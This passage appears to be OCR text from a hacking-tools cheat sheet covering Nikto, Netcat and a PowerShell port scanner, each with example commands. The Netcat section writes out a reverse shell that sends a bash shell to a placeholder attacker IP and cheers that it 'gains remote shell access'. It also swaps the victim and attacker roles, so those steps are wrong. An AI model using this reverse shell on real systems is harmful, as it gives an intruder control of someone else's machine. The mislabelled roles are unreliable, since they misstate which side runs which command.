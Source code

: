 🔹 **Example Usage:**

```bash
nikto -h http://example.com
```

✅ **Scans for security holes**, outdated software, and **misconfigurations**.

---

# **9️⃣ Netcat – The Hacker’s Swiss Army Knife**

## **📌 What is it?**

`nc` (Netcat) is a **powerful networking tool** for **port scanning, file transfers, and reverse shells**.

🔹 **Example Usage – Simple Port Scan:**

```bash
nc -zv 192.168.1.10 1-1000
```

✅ Scans ports **1-1000** on the target.

🔹 **Reverse Shell (Victim Machine):**

```bash
nc -lvnp 4444
```

🔹 **Attacker Machine:**

```bash
nc <attacker-ip> 4444 -e /bin/bash
```

✅ **Gains remote shell access**!

---

# **🔟 PowerShell – IPv4 Network Scanner**

## **📌 What is it?**

PowerShell can **scan networks**, find active devices, and check open ports.

🔹 **Example Usage:**

```powershell
1..254 | ForEach-Object {Test-NetConnection -ComputerName 192.168.1.$_ -Port 80}
```

✅ **Scans all hosts (192.168.1.x) to check if port 80 is open**.

---
